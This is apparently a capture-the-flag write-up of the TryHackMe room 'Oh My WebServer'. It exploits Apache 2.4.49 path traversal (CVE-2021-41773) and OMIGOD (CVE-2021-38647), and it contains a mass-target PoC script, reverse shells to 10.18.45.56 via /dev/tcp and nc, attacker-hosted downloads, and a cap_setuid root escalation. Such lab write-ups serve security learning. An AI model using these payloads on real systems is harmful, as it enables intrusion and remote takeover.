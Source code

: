 ```yaml
---
layout: post
title:  "Oh My WebServer"
categories: [tryhackme]
tags: [linux,omigod,container,capabilities,cve]
---
```


You can find this machine here : `https://tryhackme.com/room/ohmyweb`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn -sV ohmyweb.thm

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$  dirb http://ohmyweb.thm/

URL_BASE: http://ohmyweb.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://ohmyweb.thm/ ----
==> DIRECTORY: http://ohmyweb.thm/
+ http://ohmyweb.thm/cgi-bin/ (CODE:403|SIZE:199
```

### Wappalyzer - Port 80

![image]( /assets/img/ohmy/0.PNG)

### Searching


Search : `Apache httpd 2.4.49 exploit`
Result : `https://www.exploit-db.com/exploits/50383`

### Apache HTTP Server 2.4.49 - Path Traversal & RCE

CVE : `CVE-2021-41773`

```bash
#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done
```

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ ./ohmyweb.sh targets.txt /bin/sh "whoami;id"
ohmyweb.thm
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

![image]( /assets/img/ohmy/1.PNG)

#### Reverse Shell Creation

Source : `https://www.youtube.com/watch?v=WSVcuV2Wc58`

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "#!/bin/bash" > /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; echo "bash -i >& /dev/tcp/10.18.45.56/4444 0>&1" >> /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; cat /tmp/alienum.sh'
```

```bash
curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' --data 'echo Content-Type: text/plain; echo; bash /tmp/alienum.sh'
```

![image]( /assets/img/ohmy/2.PNG)

#### Better Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
ENTER
export TERM=xterm
export HOME=/home
```

### LinPeas 

![image]( /assets/img/ohmy/4.PNG)

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

#### Linux Capabilities - Privileges Escalation 

```bash
daemon@4a70924bafa0:~$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
daemon@4a70924bafa0:~$
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### User Owned - Proof

![image]( /assets/img/ohmy/5.gif)


### Found IP

![image]( /assets/img/ohmy/8.PNG)


### Host Discovery

- awk

```bash
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp 
```

![image]( /assets/img/ohmy/13.PNG)

- arp

```bash
root@4a70924bafa0:~# arp -a
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:1e:60:bf:4a [ether] on eth0
```

![image]( /assets/img/ohmy/14.PNG)


### Port Scan

Binary here : `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap`

```bash
curl 10.18.45.56/nmap -o nmap
```

![image]( /assets/img/ohmy/15.PNG)

- Starting the Scan

```bash
root@4a70924bafa0:~# ./nmap 172.17.0.1 -p- --min-rate 4000

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

![image]( /assets/img/ohmy/16.PNG)

### Identify The Service (Port 5986)

![image]( /assets/img/ohmy/17.PNG)

![image]( /assets/img/ohmy/18.PNG)

### OMIGOD Unauthenticated RCE

- Source : `https://github.com/AlteredSecurity/CVE-2021-38647`
- Source : `https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/`

```bash
wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
python3 -m http.server 80
```

```bash
curl 10.18.45.56/CVE-2021-38647.py -o exploit.py
```

![image]( /assets/img/ohmy/19.PNG)

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'id'
```

![image]( /assets/img/ohmy/20.PNG)

### Reverse Shell - Root Owned

```bash
python3 exploit.py -t 172.17.0.1 -p 5986 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.18.45.56 6666 >/tmp/f'
```

![image]( /assets/img/ohmy/21.PNG)